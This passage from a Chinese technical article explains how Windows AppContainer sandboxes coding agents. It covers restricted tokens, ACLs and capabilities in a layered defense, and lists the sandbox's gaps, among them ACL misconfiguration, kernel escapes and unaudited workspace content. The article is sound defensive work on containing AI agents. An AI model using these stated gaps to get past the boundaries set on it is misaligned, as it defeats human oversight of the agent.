这就是**纵深防御（Defense in Depth）**：软沙箱提供反馈与便利，硬沙箱提供真正的边界，两者叠加。

---

## AppContainer 的边界：它解决不了什么

写安全内容必须诚实：**AppContainer 不是绝对安全，它只是把"Agent 越权访问 OS 资源"这扇门从物理上关死了。** 但关死了这扇门，不等于整个房间都安全。

### 它解决得很好的

- **越权文件访问**：Agent 碰不到 Workspace 之外的文件（强）。
- **无授权联网**：Agent 默认连不出去（强）。
- **提升到你的权限**：容器进程不是"你"，拿不到你的组 SID 和特权，无法用你的身份搞破坏（强）。
- **窗口 / 进程注入类攻击**：Low IL + 进程隔离大幅削弱（中到强）。

### 它解决不了的（必须明说）

1. **Workspace 内部的破坏**：AppContainer 给了 Workspace 读写，Agent 就可以在 Workspace 里删文件、写恶意代码。它**不管内容**，只管"能不能碰"。"Agent 会不会误删项目代码"这个问题，AppContainer 不回答——那要靠审批、备份、版本控制去管。

2. **它自己的代码就不可信吗？** 不是。AppContainer 是**可信的 Windows 机制**，跟"恶意代码以容器身份运行"是两回事。容器是"笼子"，笼子本身是好的；笼子里的 Agent 可能是坏人。

3. **ACL 配置错误**：如果你图省事，把容器 SID 加进了 `C:\Users\Everyone` 这类宽泛路径，那隔离就形同虚设。**AppContainer 的安全性强依赖你配置的正确性。** 错误的白名单 = 无效的边界。

4. **内核/系统级逃逸**：AppContainer 防御的是"普通应用层越权"，不防御系统级漏洞利用（内核提权 0day、可被滥用的驱动等）。这类问题任何应用层沙箱都防不住。

5. **它不审计内容**：AppContainer 不管 Agent"往 Workspace 写了什么恶意的代码"、"联网传了什么数据"——它只管"能不能写、能不能连"。内容安全、数据外泄检测是更上层的责任。

6. **不是性能隔离**：AppContainer 不限制 CPU/内存消耗。一个 `while(1)` 能把机器跑满。要限资源得配 Job Object（还记得吗？Job Object 管"消耗多少"，AppContainer 管"能碰什么"）。

**一句话总结边界**：**AppContainer 关死了"Agent 越权访问你的系统"这扇门，但"Agent 在自己领地里瞎搞、恶意代码本身、内核漏洞、内容安全"都不在它的职责内。**

---

## 组合：完整的 Agent Sandbox 应该长什么样

最后，把一切拼起来。一个真正可用的 Windows Agent Sandbox，是**多层协作**的产物，AppContainer 只是其中"OS 强制边界"这一层。



每一层的职责：

| 层 | 干什么 | 拦得住 | 谁负责 |
|---|---|---|---|
| ① 产品策略 | 决定"Agent 当前处于哪个档位、要不要问人" | 控制"边界多宽" | Agent 配置 / 审批 |
| ② CommandFilter | 快速拦明显危险命令 | 明显的文本特征 | 应用代码 |
| ③ AppContainer | **OS 级真正边界**：越权文件、无授权网络 | 一切越权访问（靠内核） | Windows |
| ④ Workspace 授权 | 划定"Agent 的领地" | 领地之外全拒绝 | 配置 / 部署脚本 |
| ⑤ Job Object + 审计 | 限制资源、留痕 | 性能失控、无法追溯 | 应用代码 |

### 从配置到实际运行的一句话

> **`SandboxProfile` 决定"边界多宽" → `CommandFilter` 先快速拦一遍 → 真正的强边界由 `AppContainer` 在 OS 层强制 → `Workspace` 的 ACL 划出 Agent 的唯一领地 → `Job Object` 和审计负责兜底。** 四层缺一不可，但第 ③ 层 AppContainer 才是"硬"的关键。

---

## 收尾：回到最初的问题

回到开头——"你敢让 Agent 随便执行代码吗？"

有了 AppContainer，答案变成了：

- **不敢让它碰你的系统**——但 AppContainer 让它根本碰不到（受限 Token + 交集规则）。
- **不敢让它联网**——但 AppContainer 让它在 `connect()` 那一刻就被内核拒绝（无 `internetClient`）。
- **只敢让它动 Workspace**——AppContainer 的 ACL 授权让它的领地只有那一个目录。

Agent 仍然可能写出 bug、可能在 Workspace 里删错文件、可能被 prompt injection 引导——但**它没法越出你画的圈**。这就是 OS 级硬沙箱的意义：**安全不靠 LLM 的自觉，而靠内核的强制。**

而当你问"**如果我要在 Windows 上给 Coding Agent 做一个硬沙箱，为什么选 AppContainer？**"——答案很直接：

- **它是 Windows 原生**的进程级沙箱，普通用户就能用，不需要管理员、不需要装 Docker、不需要起 VM。
- **它精确表达 Agent 的前两档安全语义**：`read-only`（任意读+禁写+断网）、`workspace-write`（任意读+Workspace 写+断网）——文件隔离靠 ACL、网络隔离靠 `internetClient`，正是 AppContainer 的标准用法。
- **`danger-full` 是脱离沙箱档，不是 AppContainer 内的最高档**：它直接以完整用户权限跑（无 `internetClient` 限制、无 DACL 写限制），与"前两档"是"沙箱/裸跑"二元关系，不是"沙箱内严格程度递进"。
- **它让 Windows 获得与 Linux `unshare -n` 同等的 OS 级隔离**（针对前两档），同时保留 `CommandFilter` 做纵深防御。

AppContainer 不是银弹——它解决不了 Workspace 内部的内容问题，也挡不住内核漏洞。但作为 **"Agent 能碰什么"的硬闸**（前两档的边界），它是 Windows 上最合理、最原生、最贴合的答案。

---

## 附：术语速查表

| 术语 | 一句话 |
|---|---|
| Access Token | 进程的"身份证"，记录 User SID / Group SID / Privileges |
| SID | 系统里每个主体的唯一编号，Access Token 和 DACL 都靠它精确匹配 |
| DACL | 资源的"门卫名单"：`谁的 SID → 允许/拒绝 → 什么权限` |
| Access Check | 内核用 Token 的 SID 比对资源的 DACL，裁决能否访问 |
| AppContainer | 一个只有容器 SID、几乎没有组 SID 和特权的受限身份进程 |
| AppContainer SID | 容器专属的独立 SID，不属于任何用户/组 |
| Capability | 语义化授权单元，如 `internetClient` 控制出站网络 |
| Low Integrity | 低完整性级别，对高完整性对象连"写"都做不到的兜底 |
| 交集规则 | 对象权限 = 你的 Token 授权 ∩ 容器 SID 授权，默认全拒 |

---

*本文基于对 Windows 安全机制（Token / SID / ACL / AppContainer / Integrity Level）的公开机制与微软官方文档的理解整理。Windows 具体行为（如环回通信细节、Capability 覆盖范围）以实际系统与官方文档为准；AppContainer 是进程级沙箱，不是虚拟机，也不是绝对安全边界。*
